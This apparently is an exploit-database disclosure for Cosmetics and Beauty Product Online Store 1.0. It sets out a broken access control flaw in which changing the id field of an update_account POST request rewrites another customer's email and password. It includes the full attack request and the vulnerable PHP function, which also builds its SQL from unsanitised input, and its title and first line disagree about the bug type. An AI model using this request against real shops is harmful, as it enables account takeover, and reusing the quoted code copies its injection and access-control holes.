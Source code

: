 # Exploit Title: Cosmetic and Beauty Products Online Shop 1.0 - Broken Access Control with Update account funtions

The c parameter on category detail on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Date: 
> 15 Apr 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Cosmetics and Beauty Product Online Store](https://www.sourcecodester.com/php/15181/cosmetics-and-beauty-product-online-store-phpoop-free-source-code.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> /cbpos/classes/Master.php?f=update_account


### Description:
> Broken Access Control via ID user can change info, password of other account client on Cosmetics-and-Beauty-Product-Online-Store v1.0.

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /cbpos/?p=edit_account
2. Edit your account and view request
Request
```
POST /cbpos/classes/Master.php?f=update_account HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 154
Origin: http://localhost
Connection: close
Referer: http://localhost/cbpos/?p=edit_account
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=51spndcudrtniksvqgp19cifo8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=CHANGE_ID&firstname=account+1&lastname=bBAC&contact=122222222&gender=Male&default_delivery_address=hn&email=account1%40gmail.com&password=&cpassword=test123%40
```

3. Change id, email of other account and view result

Before:

![Example Image](https://drive.google.com/uc?id=1nyfDONIKVN2GmVSQMa0P3DeJKzrj-Cnv)

After:

![Example Image](https://drive.google.com/uc?id=19ty_CGmKCAOyU1jP_aH2Ewdh-MSLb1qR)

4. CODE
```
function update_account(){
		if(!empty($_POST['password']))
			$_POST['password'] = md5($password);
		else
			unset($_POST['password']);
		extract($_POST);
		$data = "";
		if(md5($cpassword) != $this->settings->userdata('password')){
			$resp['status'] = 'failed';
			$resp['msg'] = "Current Password is Incorrect";
			return json_encode($resp);
			exit;
		}
		$check = $this->conn->query("SELECT * FROM `clients`  where `email`='{$email}' and `id` != $id ")->num_rows;
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Email already taken.";
			return json_encode($resp);
			exit;
		}
		foreach($_POST as $k =>$v){
			if($k == 'cpassword' || ($k == 'password' && empty($v)))
				continue;
				if(!empty($data)) $data .=",";
					$data .= " `{$k}`='{$v}' ";
		}
		$save = $this->conn->query("UPDATE `clients` set $data where id = $id ");
		if($save){
			foreach($_POST as $k =>$v){
				if($k != 'cpassword')
				$this->settings->set_userdata($k,$v);
			}
			
			$this->settings->set_userdata('id',$this->conn->insert_id);
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success',' Your Account Details has been updated successfully.');
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);
```

### Impact:
> Broken access control vulnerability is a type of security flaw that allows an unauthorized user access to restricted resources. Attacker can change other account info and account takeover
